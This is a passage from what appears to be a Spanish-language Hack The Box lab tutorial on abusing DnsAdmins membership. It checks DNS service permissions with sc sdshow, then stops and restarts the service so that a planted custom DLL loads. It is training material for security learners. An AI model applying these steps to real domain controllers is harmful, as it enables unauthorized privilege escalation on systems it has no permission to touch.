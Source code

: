 Una vez que tengamos el SID del usuario, podemos usar el comando `sc` para verificar los permisos en el servicio. Según este [artículo](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), podemos ver que nuestro usuario tiene permisos `RPWP` que se traducen a `SERVICE_START` y `SERVICE_STOP`, respectivamente.

```r
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

Consulta el módulo `Windows Fundamentals` para una explicación de la sintaxis SDDL en Windows.

### Stopping the DNS Service

Después de confirmar estos permisos, podemos emitir los siguientes comandos para detener y iniciar el servicio.

```r
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```

El servicio DNS intentará iniciar y ejecutar nuestra DLL personalizada, pero si verificamos el estado, mostrará que no se pudo iniciar correctamente (más sobre esto más adelante).

### Starting the DNS Service

```r
C:\htb> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```

### Confirming Group Membership
